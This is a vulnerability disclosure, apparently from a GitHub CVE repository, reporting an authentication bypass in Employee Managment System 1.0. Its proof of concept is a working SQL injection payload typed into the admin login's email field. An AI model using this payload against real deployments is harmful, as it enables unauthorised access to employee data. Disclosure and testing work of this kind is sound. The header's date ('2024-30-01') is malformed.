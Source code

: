 # Employee Managment System - Authentication Bypass
+ **Exploit Title:** Employee Managment System - Authentication Bypass
+ **Date:** 2024-30-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/employee-management-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/4af079c9-ab82-4b2a-a133-be6989c7f70e
+ **Version:** 1.0
+ **Tested on:** Windows 11 Home + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Employee Managment System 1.0 allows Authentication Bypass via the `E-mail` and `Password` parameters at "http://localhost/370project/process/aprocess.php". 

## Proof of Concept:
+ Go to this address: "http://localhost/370project//alogin.html"
+ Email : `'or 1=1-- -` Password : `1`  and log in
+ Authentication Bypass Successful !

![Ekran görüntüsü 2024-01-30 155140](https://github.com/BurakSevben/CVEs/assets/117217689/3da05a05-bb11-427d-985c-a050aa17edce)

![Ekran görüntüsü 2024-01-31 174450](https://github.com/BurakSevben/CVEs/assets/117217689/fd9c9640-aec5-4381-bc2a-b79f642cdfd2)
